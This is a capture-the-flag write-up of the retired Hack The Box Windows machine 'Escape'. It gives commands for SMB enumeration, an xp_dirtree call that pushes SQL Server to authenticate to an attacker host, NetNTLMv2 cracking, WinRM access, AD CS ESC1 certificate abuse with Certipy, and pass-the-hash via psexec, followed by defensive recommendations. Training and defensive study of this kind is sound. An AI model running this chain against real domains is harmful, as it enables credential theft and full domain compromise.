

# Hack The Box — Escape

> **Machine:** Escape · **Operating system:** Windows Server 2019 · **Difficulty:** Medium · **Platform:** Hack The Box · **Status:** Retired
>
> **Focus:** Active Directory enumeration, SMB exposure, MSSQL coercion, NTLMv2 password recovery, credential leakage, and AD CS ESC1 privilege escalation.

## Executive summary

Escape is a Windows Active Directory lab in which a chain of configuration weaknesses leads from low-privilege network access to Domain Administrator. An SMB share accessible through guest authentication exposes a SQL Server onboarding document containing database credentials. The database login can invoke `xp_dirtree`, which causes SQL Server to attempt outbound SMB authentication. Capturing and offline-cracking the resulting NetNTLMv2 challenge-response material yields credentials for the SQL service account and remote access through WinRM.

Subsequent filesystem enumeration reveals an SQL Server error log containing a domain user's password, mistakenly entered into a username field. That user's domain membership enables certificate-template enumeration. A misconfigured Active Directory Certificate Services (AD CS) template permits an **ESC1** attack: an authorized enrollee can request a client-authentication certificate identifying another principal, including the domain administrator. Certificate-based authentication then enables administrative access to the domain controller.

**Scope:** This document describes activity performed against the retired, intentionally vulnerable HTB Escape machine in an authorized training lab. Passwords, authentication hashes, flag values, and per-session IP addresses have been deliberately omitted. Example commands use placeholders; substitute your own lab values.

## Environment and attack path

| Attribute | Value |
| --- | --- |
| Host | `dc.sequel.htb` |
| AD domain | `sequel.htb` |
| Domain controller | `DC` |
| Key exposed services | SMB (`445`), MSSQL (`1433`), LDAP/LDAPS (`389`/`636`), Kerberos (`88`), WinRM (`5985`) |
| Initial access | Guest-accessible `Public` SMB share |
| Intermediate principals | `PublicUser` (SQL login), `sql_svc`, `ryan.cooper` |
| Escalation | AD CS vulnerable `UserAuthentication` certificate template (ESC1) |
| Result | Administrator-level execution on the domain controller in the lab |



## 1. Reconnaissance

### 1.1 Service discovery

An initial Nmap scan identified a Windows domain controller and several attack surfaces worth investigating:

```bash
nmap -sC -sV -oN escape-services.nmap <TARGET_IP>
```

Selected findings from the scan:

```text
PORT     STATE SERVICE        OBSERVATION
53/tcp   open  domain         DNS
88/tcp   open  kerberos-sec   Kerberos authentication
389/tcp  open  ldap           Active Directory; domain sequel.htb
445/tcp  open  microsoft-ds   SMB file sharing
636/tcp  open  ssl/ldap       LDAPS
1433/tcp open  ms-sql-s       Microsoft SQL Server 2019
3268/tcp open  ldap           Global Catalog
3269/tcp open  ssl/ldap       Secure Global Catalog
5985/tcp open  http           Windows Remote Management
```

The LDAP certificate and MSSQL NTLM metadata identified `dc.sequel.htb` as the domain controller. DNS resolution was made explicit on the attacking VM:

```bash
# Edit /etc/hosts and add:
<TARGET_IP> dc.sequel.htb sequel.htb
```

**Analysis:** Kerberos, LDAP, SMB, and Global Catalog ports strongly suggest an Active Directory environment. SQL Server on port `1433` provides an additional potential entry point. SMB and MSSQL were prioritized over unrelated Windows management ports because they exposed practical enumeration opportunities.

### 1.2 Certificate authority clue

Inspecting the LDAPS certificate provided additional evidence of an internal certificate infrastructure:

```bash
openssl s_client -connect <TARGET_IP>:3269 -showcerts </dev/null 2>/dev/null \
  | openssl x509 -noout -text
```

A CA name consistent with `sequel-DC-CA` appeared in certificate information. This was **a lead, not proof that a certificate template was exploitable**. AD CS template settings and enrollee permissions had to be checked using an authenticated domain identity later in the engagement.

## 2. Initial access: exposed SMB documentation

### 2.1 Enumerating shares

SMB enumeration indicated that a guest session could list a nonstandard share named `Public`:

```bash
netexec smb <TARGET_IP> -u 'nonexistent-user' -p '' --shares
```

Representative output, shortened for clarity:

```text
Share       Permissions
-----       -----------
ADMIN$      —
C$          —
IPC$        READ
NETLOGON    —
Public      READ
SYSVOL      —
```

**Finding:** The `Public` share was readable without valid named-user credentials because guest access was allowed. This should not be confused with administrative SMB access.

### 2.2 Retrieving the SQL Server document

```bash
smbclient //<TARGET_IP>/Public -N
```

Within the SMB prompt:

```text
smb: \> ls
  SQL Server Procedures.pdf
smb: \> get "SQL Server Procedures.pdf"
```

The PDF described an onboarding SQL login (`PublicUser`) and disclosed its password in cleartext. The password is intentionally **redacted** from this public write-up.

**Impact:** A document stored on a guest-readable share crossed a trust boundary: information intended for internal SQL users became available to anyone who could reach SMB.

## 3. MSSQL access and NetNTLMv2 capture

### 3.1 Authenticating to SQL Server

The PDF credentials were valid for a SQL login, not a domain Windows account. The distinction explains why certain SMB/WinRM authentication checks were not useful, and why some tools required local SQL authentication semantics.

```bash
impacket-mssqlclient 'PublicUser:<REDACTED_SQL_PASSWORD>@<TARGET_IP>'
```

The session provided SQL interaction but did not grant operating-system command execution. Attempts to use or enable `xp_cmdshell` were unsuccessful. A separate extended stored procedure offered an alternative path.

### 3.2 Forcing outbound SMB authentication

A Responder listener was started on the attacking VM's HTB VPN interface:

```bash
sudo responder -I tun0
```

From the SQL client, the following **lab-only** request directed SQL Server toward an attacker-controlled UNC path:

```sql
EXEC master.sys.xp_dirtree '\\<ATTACKER_VPN_IP>\nonexistent\share';
```

**Why this worked:** When SQL Server attempted to enumerate the UNC path, Windows tried to authenticate to the specified SMB endpoint using the security context of the SQL Server service. Responder captured a **NetNTLMv2 challenge-response**, not the account's plaintext password and not its NT hash. The captured identity corresponded to `sql_svc`.

The challenge-response was stored locally as `escape.ntlmv2` and subjected to an offline dictionary attack:

```bash
hashcat -m 5600 escape.ntlmv2 /usr/share/wordlists/rockyou.txt
```

The lab password was successfully recovered, indicating weak password resistance against the tested wordlist. **Neither the recovered password nor the captured response is published here.**

### 3.3 Establishing a WinRM foothold

The recovered account was checked against WinRM and used for an interactive remote PowerShell session:

```bash
netexec winrm <TARGET_IP> -u sql_svc -p '<REDACTED_SQL_SVC_PASSWORD>'
evil-winrm -i <TARGET_IP> -u sql_svc -p '<REDACTED_SQL_SVC_PASSWORD>'
```

**Result:** Interactive access as `sequel\sql_svc` was achieved. This was an intermediate foothold, not yet domain-administrative control.

## 4. Credential exposure in SQL Server logs

After obtaining access as `sql_svc`, filesystem enumeration identified SQL Server log files under `C:\SQLServer\Logs\`. A saved error log contained unsuccessful authentication records for `sequel.htb\Ryan.Cooper`.

Representative, sanitized evidence:

```text
Logon  Error: 18456, Severity: 14
Logon  Login failed for user 'sequel.htb\Ryan.Cooper'.
Logon  Login failed for user '<REDACTED_PLAINTEXT_PASSWORD>'.
```

The second logon attempt contained a password-like value in the **username** field. This suggested that a user had inadvertently entered their password into the wrong field, causing SQL Server to write the secret into the log. Authentication testing established that the exposed value belonged to `ryan.cooper`.

```bash
netexec winrm <TARGET_IP> -u ryan.cooper -p '<REDACTED_RYAN_PASSWORD>'
evil-winrm -i <TARGET_IP> -u ryan.cooper -p '<REDACTED_RYAN_PASSWORD>'
```

**Result:** WinRM authentication succeeded as `sequel\ryan.cooper`. The user flag was accessed in the account's Desktop directory; its contents are omitted intentionally.

```powershell
Get-Content C:\Users\ryan.cooper\Desktop\user.txt
```

**Impact:** A log intended to record authentication failures inadvertently stored a reusable secret. This transformed access to a service account into access to a more valuable domain user.

## 5. AD CS enumeration and ESC1 privilege escalation

### 5.1 Finding a vulnerable template

Earlier certificate inspection suggested an enterprise CA. With `ryan.cooper`'s domain credentials, certificate templates could now be enumerated. In the original lab workflow, `Certify.exe` was uploaded to the remote host and used to identify vulnerable templates:

```powershell
# From an Evil-WinRM session in an authorized lab:
# upload ./Certify.exe C:\ProgramData\Certify.exe
C:\ProgramData\Certify.exe enum-templates --filter-vulnerable
```

A shortened representation of the relevant template settings:

```text
Template Name:                UserAuthentication
Publishing CA:               dc.sequel.htb\sequel-DC-CA
Enabled:                     True
Certificate Name Flag:       ENROLLEE_SUPPLIES_SUBJECT
Manager Approval Required:   False
Authorized Signatures:       0
Extended Key Usage:          Client Authentication
Enrollment Rights:           sequel\Domain Users
Detected Issue:              ESC1
```

An earlier check run as `sql_svc` did not reveal this exploitable path. Repeating the check as a different domain principal mattered because template visibility and enrollment rights are dependent on the security context.

### 5.2 Why these settings are dangerous

An ESC1 escalation path exists when the relevant conditions align:

1. The requester can enroll in the template (here, `Domain Users`).
2. The certificate can be used for client authentication.
3. The template allows the requester to supply identity information in the certificate request (`ENROLLEE_SUPPLIES_SUBJECT`).
4. There is no manager approval or authorized-signature requirement blocking the request.
5. Domain certificate-authentication mapping accepts the requested identity in this lab configuration.

These settings allowed the domain user to request a certificate naming `Administrator@sequel.htb` instead of the requesting account.

### 5.3 Requesting and using the certificate

Using Certipy from the attacking VM, the lab workflow requested a certificate with the administrator UPN:

```bash
certipy-ad req \
  -u 'ryan.cooper@sequel.htb' \
  -p '<REDACTED_RYAN_PASSWORD>' \
  -target 'dc.sequel.htb' \
  -ca 'sequel-DC-CA' \
  -template 'UserAuthentication' \
  -upn 'administrator@sequel.htb'
```

The resulting PFX was then used for certificate-based authentication against the domain controller:

```bash
certipy-ad auth \
  -pfx administrator.pfx \
  -u administrator \
  -domain sequel.htb \
  -dc-ip <TARGET_IP>
```

**Result:** In the lab, the certificate authenticated as the domain administrator and the authentication workflow recovered material usable for pass-the-hash authentication. No certificate, private key, or administrator hash is included in this document.

> **Version and environment note:** Certipy command-line options vary across versions. Match the syntax to the installed version's `-h` output. Modern AD CS hardening and certificate-mapping behavior can also affect whether this exact ESC1 path succeeds outside the intentionally vulnerable lab.

### 5.4 Administrative execution and proof of compromise

The administrator credential material was used with Impacket to obtain remote execution on the domain controller:

```bash
impacket-psexec -hashes '<REDACTED_LM_HASH>:<REDACTED_NT_HASH>' \
  'administrator@dc.sequel.htb'
```

The final proof was access to the administrator's Desktop flag:

```cmd
type C:\Users\Administrator\Desktop\root.txt
```

**Outcome:** Domain-administrative access and both HTB proof files were obtained. Flag contents are intentionally not disclosed.

## 6. Troubleshooting notes

**SQL authentication mode.** `PublicUser` was a SQL login. Treating it as a domain account produced misleading failures; selecting SQL authentication in the MSSQL client was necessary.

**`xp_cmdshell` vs. `xp_dirtree`.** Failure to execute OS commands through `xp_cmdshell` did not prevent triggering a network authentication attempt through a directory-enumeration procedure. These are distinct capabilities.

**Principal-dependent certificate findings.** The certificate template became actionable when enumerated as `ryan.cooper`, an account with appropriate enrollment rights. A negative scan under a different identity did not disprove the presence of a vulnerable template.

**Kerberos clock skew.** Nmap reported a substantial apparent time difference between the target and attacker. Certificate authentication and Kerberos operations are time-sensitive. Verify the actual skew and synchronize the attack VM with an appropriate trusted time source in the lab before troubleshooting authentication failures.

```bash
# Example for a lab where the domain controller is the intended time source:
sudo ntpdate -u <TARGET_IP>
```

Do not blindly change the clock on a production workstation.

## 7. Findings and defensive recommendations

| Finding | Risk | Recommendation |
| --- | --- | --- |
| Guest-readable SMB share exposed internal SQL credentials | Initial credential disclosure | Remove guest access unless explicitly required; apply least-privilege share and NTFS ACLs; keep secrets out of documents. |
| SQL Server could authenticate to an attacker-controlled SMB host | NetNTLMv2 exposure and potential relay/cracking risk | Restrict outbound SMB, especially from servers; reduce NTLM dependency; monitor unusual UNC path requests and outbound authentication. |
| SQL service-account password was susceptible to offline cracking | Service-account compromise | Use long, unique, managed service credentials (gMSAs where appropriate); rotate compromised secrets; monitor authentication abuse. |
| SQL authentication logs exposed a mistakenly entered password | Domain-user credential compromise | Restrict log access, minimize sensitive data exposure, sanitize where feasible, rotate exposed credentials, and train users on authentication hygiene. |
| `UserAuthentication` certificate template was vulnerable to ESC1 | Domain impersonation and privilege escalation | Remove requester-supplied subject settings where unnecessary; restrict enrollment; require approval where appropriate; audit issuance; apply current AD CS security updates and strong certificate mapping. |

## 8. Conclusion

Escape illustrates how individually limited weaknesses can combine into full Active Directory compromise. An exposed PDF enabled SQL access; a permitted stored procedure exposed service-account authentication; a weak password enabled WinRM access; an authentication log leaked a second password; and an overly permissive certificate template enabled administrator impersonation. No single step required a traditional memory-corruption exploit. The decisive issue was the accumulation of credential-handling and identity-configuration failures across services.

## References

- [Hack The Box — Escape (official machine page and synopsis)](https://www.hackthebox.com/machines/escape)
- [Niccolò Califano — HackTheBox: Escape (format inspiration and technical cross-check)](https://n-califano.github.io/htb-escape)
- [SpecterOps — Certified Pre-Owned: Abusing Active Directory Certificate Services](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
- [Microsoft — Active Directory Certificate Services overview](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview)
- [Certipy project documentation](https://github.com/ly4k/Certipy)

---

*Disclosure note: This write-up is for an intentionally vulnerable, retired Hack The Box training machine. All passwords, captured challenge-response data, administrator authentication material, flags, and ephemeral lab IP addresses have been redacted.*
